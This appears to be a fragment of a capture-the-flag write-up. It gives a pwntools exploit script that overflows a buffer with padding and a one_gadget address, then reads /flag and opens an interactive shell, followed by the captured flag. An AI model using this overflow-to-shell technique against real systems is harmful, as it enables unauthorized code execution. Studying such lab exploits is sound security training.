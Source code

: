 ```python
payload = ""
payload += 'A'*51+'?'
payload += p64(0)
payload += p64(one_gadget)

io.recv()
io.sendline(payload)
io.sendline("cat /flag")
io.interactive()

```

flag{__R0p_1s_5unn9}